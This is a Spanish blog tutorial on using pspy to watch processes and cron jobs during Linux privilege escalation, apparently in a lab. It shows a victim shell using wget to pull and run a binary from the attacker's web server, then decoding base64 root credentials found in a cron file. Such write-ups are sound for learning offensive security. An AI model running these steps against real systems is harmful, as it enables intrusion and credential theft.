```yaml
---
date: 2022-05-20T01:30:05.000Z
layout: post
comments: true
title: PSPY
subtitle: 'indagación de procesos de Linux sin privilegios'
description: >-
image: >-
    http://imgfz.com/i/HkurWB5.png
optimized_image: >-
    http://imgfz.com/i/HkurWB5.png
category: ciberseguridad
tags:
  - privilegios
  - CRON
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta de línea de comandos diseñada para husmear en los procesos sin necesidad de permisos de root. Le permite ver los comandos ejecutados por otros usuarios, trabajos cron, etc. mientras se ejecutan.

### Transferencia

Primero desde nuestra máquina atacante nos creamos un servidor web para descargarlo desde la máquina víctima ```pspy```:

```bash
┌──(root㉿kali)-[/opt/pspy]
└─# python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
-127.0.0.1 - - [10/May/2022 03:21:48] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [10/May/2022 03:21:49] code 404, message File not found
127.0.0.1 - - [10/May/2022 03:21:49] "GET /favicon.ico HTTP/1.1" 404 -
10.1.1.22 - - [10/May/2022 03:23:34] "GET /pspy64 HTTP/1.1" 200 -
```

Ahora lo descargamos desde la máquina víctima:

```bash
www-data@demo:/tmp$ wget http://10.1.1.19:8000/pspy64
--2022-05-10 09:23:33--  http://10.1.1.19:8000/pspy64
Connecting to 10.1.1.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                        100%[==============================================>]   2.94M  --.-KB/s    in 0.03s   

2022-05-10 09:23:33 (115 MB/s) - 'pspy64' saved [3078592/3078592]

www-data@demo:/tmp$ ls
pspy64
```

### Ejecución

Ahora procedemos a asignar los permisos correspondientes y lo ejecutamos:

```bash
www-data@demo:/tmp$ chmod +x pspy64 
www-data@demo:/tmp$ ./pspy64
```
![1](http://imgfz.com/i/kHrpMmB.png)

Al ejecutarlo podemos ver los procesos en ejecución y si seguimos bajando detectaremos tareas CRON:

![2](http://imgfz.com/i/1QnWA0M.png)

CRON es un administrador regular de procesos en segundo plano, que ejecuta procesos o guiones a intervalos regulares (por ejemplo, cada minuto, día, semana o mes). Esto significa que pueden ser utilizados de forma maliciosa para detectar archivos que puedan servir para escalar privilegios, o bien encontrar datos sensibles expuestos. Por ejemplo:

![3](http://imgfz.com/i/O2bo61d.png)

```bash
www-data@demo:/tmp$ cd ..
www-data@demo:/$ cat /usr/share/doc/examples/cron.sh

# cron.sh sample file
# 0 20 * * * /bin/goahead --parameter: LXUgcm9vdCAtcCByZnZiZ3QhIQ==

┌──(root㉿kali)-[/home/nptg]
└─# echo 'LXUgcm9vdCAtcCByZnZiZ3QhIQ==' | base64 -d; echo
-u root -p rfvbgt!!
```

En este caso se encontraron credenciales expuestas en la máquina!
